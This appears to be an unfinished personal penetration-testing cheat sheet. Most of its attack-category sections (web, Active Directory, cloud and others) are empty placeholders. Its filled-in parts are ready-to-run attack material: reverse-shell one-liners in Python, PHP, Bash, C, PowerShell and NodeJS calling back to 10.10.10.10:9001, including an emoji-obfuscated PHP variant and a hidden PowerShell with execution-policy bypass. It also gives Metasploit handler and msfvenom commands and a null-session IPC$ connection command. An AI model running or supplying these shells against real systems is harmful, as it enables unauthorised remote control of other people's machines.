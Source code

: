 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE

<details><summary> <b>API</b> </summary><blockquote>
  <details><summary>REST</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>SOAP</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>


<details><summary> <b>WEB</b> </summary><blockquote>
    <br/>
Start with automated tools to search for low hanging fruits 
   Burpsuite Scanner
   OWASP Zap 
   Accunetix
   Nikto 
   
   
  <details><summary>SQLi</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>IDOR</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>XSS</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>BAC</summary><blockquote>
        Broken Access Control
    :smile:
  </blockquote></details>
    <details><summary>XXE</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SDE</summary><blockquote>
        secure data exposure
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>MOBILE</b> </summary><blockquote>
  <details><summary>Android</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>iOS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>NIX</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>WINDOWS</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>ACTIVE-DIRECTORY</b> </summary>
    <details><summary>Initial Access</summary>
        content 1.1
    </details>
    <details><summary>Local Privilege Escalation</summary>
        content 1.2
    </details>
  <details><summary>Post Exploitation</summary>
        content 1.2
    </details>
    <details><summary>Lateral Movement</summary>
        content 1.2
    </details>
    <details><summary>Clearing Tracks</summary>
        content 1.2
    </details>
</details>

<br/>

<details><summary> <b>CLOUD</b> </summary><blockquote>
  <details><summary>AZURE</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>AWS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>
<details><summary> <b>SHELLS</b> </summary><blockquote>
  <details><summary>Reverse Shells</summary><blockquote>
    #### Python
```python
  python -c 'import pty;pty.spawn("/bin/bash")';
```
```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
    #### PHP
```php
    php -r '$sock=fsockopen("10.10.10.10",9001);system("sh <&3 >&3 2>&3");'
```
    #### Bash
```bash
    sh -i >& /dev/tcp/10.10.10.10/9001 0>&1
 ```
    #### PHP Emoji
 ```php
    php -r '$ð="1";$ð="2";$ð="3";$ð="4";$ð="5";$ð="6";$ð="7";$ð="8";$ð="9";$ð="0";$ð¤¢=" ";$ð¤="<";$ð¤ =">";$ð±="-";$ðµ="&";$ð¤©="i";$ð¤=".";$ð¤¨="/";$ð¥°="a";$ð="b";$ð¶="i";$ð="h";$ð="c";$ð¤£="d";$ð="e";$ð="f";$ð="k";$ð="n";$ð="o";$ð="p";$ð¤="s";$ð="x";$ð = $ð. $ð¤. $ð. $ð. $ð. $ð. $ð. $ð. $ð;$ð = "10.10.10.10";$ð» = 9001;$ð = "sh". $ð¤¢. $ð±. $ð¤©. $ð¤¢. $ð¤. $ðµ. $ð. $ð¤¢. $ð¤ . $ðµ. $ð. $ð¤¢. $ð. $ð¤ . $ðµ. $ð;$ð¤£ =  $ð($ð,$ð»);$ð½ = $ð. $ð. $ð. $ð;$ð½($ð);'
 ```
    #### C
   ```c
    #include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.10.10");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execve("sh", argv, NULL);

    return 0;       
}
   ```
    
    ### Powershell
```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
 ```
   #### NodeJS
    ```javascript
    (function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(9001, "10.10.10.10", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
    ```
    
    
    :smile:
  </blockquote></details>
  <details><summary>Web Shells</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>


<br/>
<br/>

## Metasploit 
#### ./ Multi Use Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler: ‘msfconsole -L -r' 
<br/>
<br/>

#### ./ Scripting Payloads
PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```

<br/>

## Python
#### ./ Spawn a terminal

```python
python -c 'import pty;pty.spawn("/bin/bash")';
```
<details> 
  <summary> <b>Checking for Null Sessions</b> </summary>

To verify that, we will exploit the IPC$ administrative share by trying to connect to it without valid credentials.

To connect, you have to type the following command in a Windows shell:

```bash
> NET USE \\<target IP address>\IPC$ '' /u:''
```

This tells Windows to connect to the IPC$ share by using an empty password and an empty username!

Let's try the command on our target:

<br/>
<img src="/assets/images/pts_labs/null_sessions/checking11.png" height="50%" width="50%">
<br/>


The previous command establishes a connection to the IPC$ administrative share without specifying a user; this is possible because our target host is vulnerable to null session attacks. This test only works with the IPC$. For example, it does not work with C$:
  
Example:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking12.png" height="60%" width="60%">
<br/>
You can also perform the very same checks by using smbclient:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking13.png" height="70%" width="70%">
</details>
